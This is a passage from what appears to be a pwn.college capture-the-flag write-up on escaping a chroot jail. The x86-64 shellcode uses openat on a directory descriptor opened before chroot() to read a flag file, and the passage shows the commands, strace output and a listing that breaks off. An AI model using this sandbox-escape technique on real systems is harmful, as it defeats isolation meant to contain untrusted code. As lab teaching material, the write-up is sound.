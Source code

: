 Fortunately, there is `openat` syscall in linux which takes as input a directory file descriptor and then the path of the file to be opened relative to the directory.
```
int openat(int dirfd, const char pathname, int flags, mode_t mode);
```
In our case, the `dirfd` will be `3`, the first three being STDIN, STDERR and STDOUT.

The `open` syscall would look something like this:
```
# Openat syscall
mov rdi, 3
lea rsi, [rip + flag]
mov rdx, 0
mov r10, 0
mov rax, 0x101
syscall

flag:
	.string "flag"
```
Note that I specified `flag` and not `/flag` because that would reference the file inside `jail/`.

The result of the open syscall is a file descriptor.

We can check it's value in the practice mode using `strace` which traces every system call.
```
$ sudo strace /challenge/babyjail_level3 / < /home/hacker/shellcode.bin

; -- snip --
openat(3, "flag", O_RDONLY)             = 4
read(4, "pwn.college{practice}\n", 1000) = 22
; -- snip --
```
This result is stored in `$rax` as is the case with most syscall that return a value.
```
# Read syscall
mov rdi, rax
mov rsi, rsp
mov rdx, 1000
mov rax, 0x00
syscall
```
We can pass this shellcode to the challenge.
```
$ /challenge/babyjail_level3 / < /home/hacker/shellcode.bin
```
Note that `/` is our `argv[1]`, which we are using as reference in `openat`.

Since this directory is opened before `chroot()` is executed it won't be in the jail.

Congratulations! We have escaped `chroot`.
```
.global _start
.intel_syntax noprefix

_start:
	# Openat syscall
	mov rdi, 3
	lea rsi, [rip + flag]
	mov rdx, 0
	mov r10, 0
	mov rax, 0x101
	syscall

	# Read syscall
	mov rdi, rax
	mov rsi, rsp
	mov rdx, 1000
```